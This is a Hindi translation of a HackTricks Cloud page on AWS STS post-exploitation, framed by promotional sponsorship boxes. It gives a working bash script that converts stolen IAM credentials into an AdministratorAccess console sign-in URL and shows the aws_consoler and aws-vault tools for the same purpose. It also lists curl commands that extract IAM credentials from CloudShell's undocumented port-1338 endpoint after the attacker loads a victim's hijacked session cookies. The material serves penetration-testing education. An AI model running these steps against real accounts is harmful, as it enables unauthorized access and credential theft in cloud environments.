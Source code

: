 # AWS - STS पोस्ट अधिकारीकरण

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एकल [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) **और** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos** में PR जमा करके।

</details>

## STS

अधिक जानकारी के लिए:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

### IAM Creds से कंसोल तक

यदि आपने कुछ IAM क्रेडेंशियल प्राप्त कर लिए हैं, तो आपको निम्नलिखित उपकरणों का उपयोग करके **वेब कंसोल तक पहुंचने** में रुचि हो सकती है।
ध्यान दें कि उपयोगकर्ता/भूमिका को अनुमति होनी चाहिए **`sts:GetFederationToken`**।

#### कस्टम स्क्रिप्ट

निम्नलिखित स्क्रिप्ट डिफ़ॉल्ट प्रोफ़ाइल और डिफ़ॉल्ट AWS स्थान (न कि सरकार और न कि cn) का उपयोग करेगा ताकि आपको एक साइन की गई URL मिले जिसका उपयोग आप वेब कंसोल में लॉगिन करने के लिए कर सकें:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo $resp | jq -r '.SigninToken')

# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

आप [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler) के साथ एक वेब कंसोल लिंक बना सकते हैं।
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
सुनिश्चित करें कि IAM उपयोगकर्ता में `sts:GetFederationToken` अनुमति है, या अस्सूम करने के लिए एक भूमिका प्रदान करें।
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) एक उपकरण है जो एक विकास वातावरण में AWS क्रेडेंशियल को सुरक्षित रूप से संग्रहीत और पहुँचने के लिए उपयोग किया जाता है।
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
आप एक **aws-vault** का उपयोग करके एक **ब्राउज़र कंसोल सत्र** प्राप्त करने के लिए भी उपयोग कर सकते हैं।
{% endhint %}

#### कंसोल से IAM Creds तक

यदि आप किसी वेब कंसोल के लिए कुछ पहुंच प्रबंधित करते हैं (शायद आपने कुकी चोरी की और .aws फ़ोल्डर तक पहुंच नहीं मिली), तो आप **CloudShell** के माध्यम से उस उपयोगकर्ता के लिए कुछ IAM टोकन क्रेडेंशियल प्राप्त कर सकते हैं।

CloudShell पोर्ट 1338 पर एक **अनदस्तु एंडपॉइंट** के माध्यम से IAM क्रेडेंशियल प्रकट करता है। पीड़ित के सत्र कुकीज़ को अपने ब्राउज़र में लोड करने के बाद, आप CloudShell में जा सकते हैं और निम्नलिखित कमांड जारी करके IAM क्रेडेंशियल प्राप्त कर सकते हैं।
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
<details>

<summary><strong>बढ़िया होने के लिए HackTricks का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **HackTricks में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या **फॉलो** करें मुझे **ट्विटर** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **अपने हैकिंग ट्रिक्स साझा करें** PRs के माध्यम से [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में सबमिट करके।

</details>
